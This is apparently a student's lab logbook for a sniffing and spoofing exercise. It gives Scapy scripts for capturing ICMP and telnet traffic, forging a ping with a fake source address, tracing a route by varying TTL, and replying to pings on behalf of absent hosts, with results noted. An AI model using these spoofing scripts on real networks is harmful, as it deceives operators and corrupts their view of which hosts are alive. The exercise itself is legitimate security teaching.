


# LOGBOOK 12 - Sniffing and Spoofing Lab

## Task 1: Sniffing Packets

## Task 1.1.A

After using the command `dockup` and verifying that the containers where working as expected, we created `sniffer.py`.

Following the guide, we changed the interface in the example with the Host VM one (SEED).

**sniffer.py**
```
#!/usr/bin/env python3
from scapy.all import *

def print_pkt(pkt):
    pkt.show()

pkt = sniff(iface='br-49fee2210386', filter='icmp', prn=print_pkt)
```

### Results
- Ping from Host B


- Scapy ping sniff


- Sniffer error when using without sudo


The packages show he following layers:
- Ethernet: MAC addresses (src/dst), type=IPv4
- IP: version=4, TTL=64, protocol=ICMP, source/destination IPs
- ICMP: type=echo-request (8) or echo-reply (0), code=0
- Raw: payload data

## Task 1.1B

As the code from the guide already had the icmp filter in the line `pkt = sniff(iface='br-49fee2210386', filter='icmp', prn=print_pkt)`, we got a tip on how to configure


- Result with icmp filter (that was there by default)


- Result then updating the filter to`filter='tcp and src host 10.9.0.5 and dst port 23'`


## Task 1.2: Spoofing ICMP Packets

In this task we demonstrate IP packet spoofing using scapy (from the code below). The objective is to send an ICMP Echo Request with a forged source IP address, making the packet appear to come from a different machine.

**spoofer.py**
```
#!/usr/bin/env python3
from scapy.all import *

a = IP()
a.src = '1.2.3.4'
a.dst = '10.9.0.5'

b = ICMP()
b.type = 8

p = a/b

send(p)
print("ICMP spoofed packet  sent!")
```


Here we see that the spoofing worked, and the spoofer is using the address 1.2.3.4 (which does not exists) correctly


## Task 1.3: Traceroute

- traceroute.py

```

#!/usr/bin/env python3
from scapy.all import *

destination = '8.8.8.8'
max_hops = 30

print(f"Traceroute to {destination}:")
print("-" * 50)

for ttl in range(1, max_hops + 1):
    pkt = IP(dst=destination, ttl=ttl) / ICMP()
    
    reply = sr1(pkt, verbose=0, timeout=2)
    
    if reply is None:
        print(f"{ttl}. * * * (no answer)")
    elif reply.type == 0:
        print(f"{ttl}. {reply.src} - destination reached!")
        break
    else:
        print(f"{ttl}. {reply.src}")

```

When trying to use traceroute internally, through the VirtualBox VM we always get the same result of one hop.

The traceroute shows only 1 hop because the VM uses NAT networking. The NAT gateway handles routing externally, hiding intermediate routers. The code correctly implements traceroute by incrementing TTL values, but the network configuration limits visibility. Running traceroute 8.8.8.8 from the host system confirms this limitation

When running it outside of the VM we get the expected result

```
Traceroute to 8.8.8.8:
--------------------------------------------------
1. 192.168.1.254
2. 10.194.192.1
3. * * * (no answer)
4. 195.8.30.245
5. 72.14.203.24
6. 192.178.246.149
7. 192.178.82.76
8. 142.251.55.191
9. 108.170.226.235
10. 142.250.232.11
11. 8.8.8.8 - destination reached!
```

From this we can see all the hops necessary to reach 8.8.8.8

We changed the configuration of the VM network from NAT to bridge, making it also work inside the SEED environment (notice that we ran the command from another machine).


From this we understood that by changing the ttl configuration it is possible to get a return from every hop point in the path to a certain ip destination.

## Task 1.4: Sniffing and-then Spoofing

In this task we implement a sniff-and-spoof attack that makes any host appear alive to ping. The attacker program monitors the network for ICMP Echo Requests and immediately sends a spoofed Echo Reply, pretending to be the target host.

It is important to notice that in cases where we ping a non-existing LAN host, because we are not pinging an actual device with a MAC, the spoofer can't do anything to finish the ARP request in this example. Because there is no ARP reply, the ICMP packet never leaves hostA

**sniff_spoof.py:**
```
#!/usr/bin/env python3
from scapy.all import *

def spoof_reply(pkt):
    if ICMP in pkt and pkt[ICMP].type == 8: 
        print(f"ICMP Request captured: {pkt[IP].src} -> {pkt[IP].dst}")

        ip = IP(src=pkt[IP].dst, dst=pkt[IP].src)
        icmp = ICMP(type=0, id=pkt[ICMP].id, seq=pkt[ICMP].seq)

        if Raw in pkt:
            data = pkt[Raw].load
            spoofed_pkt = ip/icmp/data
        else:
            spoofed_pkt = ip/icmp

        send(spoofed_pkt, verbose=0)
        print(f"ICMP Reply spoofed sent: {spoofed_pkt[IP].src} -> {spoofed_pkt[IP].dst}")

print("Waiting for ICMP requests...")
sniff(iface='br-3dd504098706', filter='icmp[icmptype] == 8', prn=spoof_reply)
```
When pinging the following addresses:

- 1.2.3.4 (non-existing Internet host): Attack succeeds. The packet is routed through the gateway, so it appears on the network where our sniffer captures it and sends a fake reply.
- 10.9.0.99 (non-existing LAN host): Attack fails. Since the target is on the same subnet, hostA must first resolve its MAC address via ARP. Because 10.9.0.99 doesn't exist, ARP fails and the ICMP packet is never sent.
- 8.8.8.8 (existing Internet host): Attack partially succeeds. HostA receives duplicate replies—one spoofed from our program and one real from Google (8.8.8.8).



